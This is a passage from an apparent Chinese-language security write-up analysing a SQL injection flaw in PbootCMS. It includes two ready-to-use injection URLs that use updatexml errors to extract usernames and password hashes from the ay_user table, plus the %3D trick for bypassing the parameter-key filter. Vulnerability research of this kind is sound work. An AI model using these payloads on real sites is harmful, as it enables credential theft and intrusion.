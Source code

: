可以得知最后是将拼接好的where2数据(判断开头为ext_)传给ParserModel下的getList以及getSpecial两个方法，这两个方法未经过任何过滤直接床给where、select()底层方法查询，从而造成SQL注入漏洞。

```
http://127.0.0.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/concat(0x23,username,0x3a,password,0x23)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23

http://127.0.0.1/index.php/Index?ext_price%3D1/**/and/**/updatexml(1,concat(0x7e,(SELECT/**/distinct/**/substr(concat(0x23,username,0x3a,password,0x23),8,64)/**/FROM/**/ay_user/**/limit/**/0,1),0x7e),1));%23

//这里因为md5显示有限，用substr截取后面字符
```

这里是因为`%3D`,因为这个字符串它把整个后面都当成了key值而不是value，从而绕过get的过滤，这里尝试把`%3D`改成`=`观看结果

![image](./img/pbootcms22.png)

可以看到变成了value的值就无法绕过了，所以这里是用`%3D`来绕过key判断的。

同样地 其它地方也存在类似注入，这里不做分析了。

## Resources
- [Pbootcms开发手册](http://www.mianshigee.com/tutorial/PbootCMS/spilt.2.0.md/)
- [Pmiaowu](https://www.yuque.com/pmiaowu/bfgkkh/lrqvqv#JNuFc)